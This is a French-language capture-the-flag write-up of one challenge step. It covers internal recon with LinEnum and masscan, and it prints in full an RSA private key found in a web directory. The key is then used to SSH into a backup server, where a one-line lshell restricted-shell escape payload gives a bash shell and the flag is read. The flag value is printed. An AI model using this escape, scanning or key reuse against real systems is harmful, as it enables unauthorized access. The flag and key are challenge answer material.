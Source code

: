 # Step 10

## recon

en se basant sur le schéma de je sais plus quelle étape, il y a une autre machine dans ce réseau. Go lancr LinENum:

```bash
./LinEnum.sh -s -r report -e /dev/shm -t
```

dans le arp cache on voit :

```bash
[-] ARP history:
172.16.69.254 dev ens18 lladdr 3e:20:13:a5:09:49 REACHABLE
172.16.69.65 dev ens18 lladdr 96:2e:20:a6:a0:f3 STALE
```

## port scan

* srv02 ?

```bash
➜  www sudo masscan -e tun0 -p0-65535,U:0-65535 --rate 700 172.16.69.65           
Discovered open port 22/tcp on 172.16.69.65                                                                     
```

* veruca machine

```bash
➜  www sudo masscan -e tun0 -p0-65535,U:0-65535 --rate 700 172.16.69.78            
Discovered open port 80/tcp on 172.16.69.78                                    
Discovered open port 22/tcp on 172.16.69.78                                    
```

## configuration web server veruca's machine

deux serveurs web :

* apache
* nginx

rien de psécial dans la conf d'apahce, des trucs rigolos dans la conf de nginx:

```
veruca@SRV01-WEB-WW3:/etc/nginx/sites-available$ ls
default  dev3.challenge.akerva.com
```

Donc dans `/etc/nginx/sites-available/dev3.challenge.akerva.com` on retrouve la config nginx du site du début:

```
server {
	server_name dev3.challenge.akerva.com;
	listen 80;
	listen [::]:80;
	root /usr/share/nginx/dev3.challenge.akerva.com;
	index index.html index.php;
	autoindex off;
	
	add_header X-Frame-Options SAMEORIGIN;
	add_header X-Content-Type-Options nosniff;
	add_header X-XSS-Protection "1; mode=block";

	location / {
		if (-f /usr/share/nginx/dev3.challenge.akerva.com/error/index.html){
		return 503;
		}
	}
	
	location  ~ /\.{
		deny all;
		access_log off;
		log_not_found off;
	}
	
	#Error pages
	error_page 503 /index.html;
	location = /index.html {
		root /usr/share/nginx/dev3.challenge.akerva.com/error/;
		internal;
	}
	
	location ~ ^/.*\.php {
            try_files $uri =503;
            include fastcgi_params;
            fastcgi_pass unix:/run/php/php7.3-fpm.sock;
            fastcgi_split_path_info ^/(.+\.php)(/.*)$;
            fastcgi_index index.php;
            fastcgi_param HTTPS on;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param PATH_INFO $fastcgi_path_info;
            fastcgi_intercept_errors on;
        }

}
```

le chemin de la racine du site on a:

> /usr/share/nginx/dev3.challenge.akerva.com

## clé privée

```bash
veruca@SRV01-WEB-WW3:/etc/nginx/sites-available$ ls /usr/share/nginx/dev3.challenge.akerva.com
error  golden_tickets  keys  scripts
```

dans le dossiers keys on a une clé privée:

```bash
veruca@SRV01-WEB-WW3:/etc/nginx/sites-available$ cat /usr/share/nginx/dev3.challenge.akerva.com/keys/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA5dnZ83IwhPlKzVY1ZErDhifzoX0IMYyot/yv1zXN6yCNlh8F
JcK1OJVkJbYo1Agrr6rXDC64I72gpddF43GmDZsFQKuLott/5FccEJP3Fiv2E36j
70dKUg5CQmQVIDzxFKCpgKNeg0+dLtjQjCV+dYMKbPhwm6PZgwaoylTwSzylkQuz
g0KyXJUsRaf4WHf2PU5TphM/H7E+RR8LqyfMNjXbWsS4s1hFTrbCKGYoVDnrhJsm
nx7b6zZCt8Ee+uW1R0wd2/dIs8KOycWa5uWQ+L9XKNpb3uwaaOajA/pMamFGkcIU
biFYodY1ycsP8MU5dI7/roAbDV7XkDbp+IPQGwIDAQABAoIBAQDey2TU8fmP2yij
ko2cUk/l6THhdZWMmeAsvzUesRuRbvNu8VCHAo2wdDYny8MVi3n1A+8A8wQwOK3Q
MrOevFmN1Jap0d4/FO6JwdoFQ7d8eU5EJTv4Qq0KjqGxQturbQbtzLGgbDq/o1sj
vqufPPSwKT3g1IwqgQ7kT38q6FwnP6KJs+V3yrqVyJyDUvQ14+WUj846X1T1Uq7W
vc4XWZR44817rBe+aQQ6nhsDta0Wu6kMt190LQ7oDciObliUf7nF58S1MdNcFH9y
aBJrqNjmo/xf7g0UN/ZsLEeEkwjnGrAMNxK4tKSGK7JxFAFEb3rY8Rw1ytLCq95+
vxABMl1hAoGBAPfqz3/rVfboErZJ1xfrwLh1cPv57Vqlrh85DZgbUTSVRwLtS5I1
GibVtdA/0zMhIIj83s9umPc9rVEoejTeNUIhRg5wa2iP1ZTnb9Sc6NoFQcES3dI3
lZVrxMTCtiv3UB3/0klleJnLuao5CeQWhAb6QhsETUPOiE65V5gESbwxAoGBAO1Y
QTGj5IzNhX6D5moUNeIkjAUN98CySYwdbCITk8sRjDY99Epm0VhdIalHNrS4KvO/
GdZ77sJd5KEvsSWbMu/qf+4nQeZ5yZp9DaPPaIhZ8HujT0WPJ4EEz3tht30ygWgu
vW+D9flFU/tvx7G/oU0jTo+dLo4GJ6G6yBjFx9oLAoGBAI/14hg95+VATd1cc3KI
i5iRWdJ4BsQkgT/QOXyiID2QkXO5p7B29YCniLQs289M5T+m1xtM9bZcMlB2WMBq
aDLGb4/i5/wHydZ1rhKgKvavJsee1QBFFq91rQU0q+RL8FH7Q3krWySzkFSwWnYA
PRpwKALYNKWzQKO2LI8xrj+BAoGAEMoZcoWBeWRgeR6jggWD+kdTkFf4mq0B/uNl
7tMrtUW8gWnIiirTzEhqRStAd3A/uZZfIYkKzr0Nm0lgYqSj6czQ1+v3AXLEDCWk
fV4CqwKRvG1FAkqqJLpOYw/6huS3usLzq5vOHqAE3Nh/a9d+dZJ10DryPCG7U/l+
hiIXjRkCgYEAiFMdyRToIATTyA9qmexLmoeZSz8em+7wWfXq8YI/4YwDHANrOyhG
iAHs56wI6Bg32R11Liez8KXAhAuzLMHkJs1vjB+q6vhZ/2yC1ZhK76fAyZ56/A2S
rvhmN515tX++j1BW7lK8I8ANU4XtUhPGeXoRV+d87RnKnDfXrkfvLMI=
-----END RSA PRIVATE KEY-----
```

## connection to the other server

au début j'ai essayé de m'y connecter et à cause de zsh j'ai eu une belle stacktrace:

```bash
➜  step10 git:(master) ✗ ssh violet@172.16.69.65 -i /home/maki/Documents/wonkachall2019/step10/id_rsa
Linux SRV02-BACKUP 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Fri Jul 19 11:36:53 2019 from 10.8.0.14
Traceback (most recent call last):
  File "/usr/bin/lshell", line 52, in <module>
    main()
  File "/usr/bin/lshell", line 38, in main
    userconf = CheckConfig(args).returnconf()
  File "/usr/local/lib/python2.7/dist-packages/lshell/checkconfig.py", line 69, in __init__
    self.get_global()
  File "/usr/local/lib/python2.7/dist-packages/lshell/checkconfig.py", line 145, in get_global
    self.config.read(self.conf['configfile'])
  File "/usr/local/lib/python2.7/dist-packages/backports/configparser/__init__.py", line 697, in read
    self._read(fp, filename)
  File "/usr/local/lib/python2.7/dist-packages/backports/configparser/__init__.py", line 1027, in _read
    for lineno, line in enumerate(fp, start=1):
  File "/usr/lib/python2.7/encodings/ascii.py", line 26, in decode
    return codecs.ascii_decode(input, self.errors)[0]
UnicodeDecodeError: 'ascii' codec can't decode byte 0xc2 in position 2854: ordinal not in range(128)
Connection to 172.16.69.65 closed.
```

grâce à cette erreur on sait que le shell restreint c'est `lshell`: https://github.com/ghantoos/lshell/

après avoir discuté avec les orgas, j'ai du changer mon shell par défaut par `bash` et ça fonctionne très bien, j'arrive bien dans le lshell en tant que violet (merci le hint) :

```bash
maki@Laptop-OPMD-SecOPS:~/Documents/wonkachall2019$ ssh -i /home/maki/Documents/wonkachall2019/step10/id_rsa violet@172.16.69.65 
Linux SRV02-BACKUP 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Fri Jul 19 14:05:48 2019 from 10.8.0.26
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
violet:~$
```

## escape

j'ai été sur le github de `lshell` dans la section "issue", avec un petit filtre sur "security" je tombe sur ce lien : https://github.com/ghantoos/lshell/labels/security

Et cette réponse nous donne quoi faire pour escape : https://github.com/ghantoos/lshell/issues/151#issuecomment-303696754

```bash
violet:~$ echo bite && cd () bash && cd
bite
violet@SRV02-BACKUP:/usr/local/share/golden_tickets$ id
uid=1000(violet) gid=1000(violet) groupes=1000(violet),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),1002(lshell)
```

## flag

```bash
violet@SRV02-BACKUP:~$ cat flag-10.txt 
d9c47d61bc453be0f870e0a840041ba054c6b7f725812ca017d7e1abd36b9865
```